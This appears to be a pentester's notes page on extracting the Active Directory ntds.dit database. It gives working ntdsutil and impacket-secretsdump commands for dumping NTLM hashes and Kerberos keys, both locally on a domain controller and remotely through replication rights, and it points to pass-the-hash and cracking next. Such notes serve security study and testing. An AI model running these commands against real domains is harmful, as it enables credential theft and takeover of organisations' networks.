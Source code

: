 # New Technologies Directory Services (NTDS)

### Resources

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/ntds" %}

{% embed url="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc753343(v=ws.11)" %}

{% embed url="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc732530(v=ws.11)" %}

{% embed url="https://www.semperis.com/blog/ntds-dit-extraction-explained/" %}

{% embed url="https://www.kali.org/tools/impacket/" %}

### What is NTDS?

New Technologies Directory Services (NTDS) is a database containing all Active Directory data, including objects, attributes, credentials, etc.

NTDS is located in the directory: `C:\Windows\NTDS`, and is encrypted to prevent data extraction from a target machine. Access to the `ntds.dit` file is disallowed since the file is used by Active Directory and will be locked.&#x20;

#### `ntds.dit`

This file which stands for the New Technology Directory Services Directory Information Tree, is the database for Active Directory Domain Services (AD DS). This database stores directory data such as password hashes and user details for all computer and users objects within the domain, and makes that data available to network users and administrators.&#x20;

{% embed url="https://jarrettgxz-sec.gitbook.io/windows/active-directory-ad/domain-service-ad-ds/ntds.dit" %}

### (1) Local dumping (with no credentials)

> Note that the methods discussed in this section only works with administrator access on the **Domain Controller** (**DC**). This is because we are working with the `ntds.dit` file, which is only present on the **DC**.

This attack can be performed when we have no credentials available, but have administrator access to the Domain Controller (DC).&#x20;

The following files are required to dump the contents of the NTDS file:

* C:\Windows\NTDS\ntds.dit
* C:\Windows\System32\config\SYSTEM
* C:\Windows\System32\config\SECURITY

Run the following command to dump the NTDS file (output in the `c:\temp` directory):

{% code title="PowerShell session on DC (with administrator access) " overflow="wrap" %}
```powershell
PS> ntdsutil.exe 'activate instance ntds' 'ifm' 'create full c:\temp' quit quit

# short form
PS> ntdsutil.exe 'ac i ntds' 'i' 'create full c:\temp' q q
```
{% endcode %}

* `ac i ntds:` short for ...
* `i:` short for ...
* `create full c:\temp:` ...
* `q q:` short for ...

We can now view the dumped files in the `c:\temp` directory, with the following structure:

* **Active Directory**
  * **ntds.dit**&#x20;
  * **ntds.jfm**
* **registry**
  * **SECURITY**
  * **SYSTEM**

Next, we can copy the 3 files listed above (`ntds.dit` and the other 2 registry directories: `SYSTEM` and `SECURITY`) to our attacker machine, before using the **impacket's secretsdump.py** tool to extract the hashes:

{% code title="Attacker machine" overflow="wrap" %}
```sh
$ impacket-secretsdump -security <path_to_SECURITY> -system <path_to_SYSTEM> -ntds <path_to_ntds.dit> LOCAL
```
{% endcode %}

* `-security`: SECURITY hive to parse
* `-sam:` SAM hive to parse
* -`ntds:`NTDS.DIT file to parse
* Note that the target is `LOCAL`

### (2) Remote dumping (with credentials)

For the following attack, we require credentials for a user with the following permissions:

a. Replicating Directory Changes

b. Replicating Directory Changes All

c. Replicating Directory Changes in Filtered Set

{% code title="Attacker machine" overflow="wrap" %}
```sh
$ impacket-secretsdump -just-dc <TARGET>
```
{% endcode %}

* `-just-dc`: Extract only NTDS.DIT data (NTLM hashes and Kerberos\
  keys)

{% code title="Attacker machine" overflow="wrap" %}
```sh
$ impacket-secretsdump -just-dc-ntlm <TARGET>
```
{% endcode %}

* `-just-dc-ntlm`: Extract only NTDS.DIT data (NTLM hashes only)

The value for the `<TARGET>` field will be the authenticated user (with the permissions listed above) in the form: `[[domain/]username[:password]@]`,eg. `test.loc/jarrett@x.x.x.x`.&#x20;

Now that we have obtained the hashes, we can either impersonate that user ([pass-the-hash](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/lateral-movement-and-pivoting/leveraging-alternate-authentication-materials/pass-the-hash-ntlm), etc.), or crack the hash using [hashcat](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/credentials-brute-force-cracking/tools/hashcat), etc. &#x20;
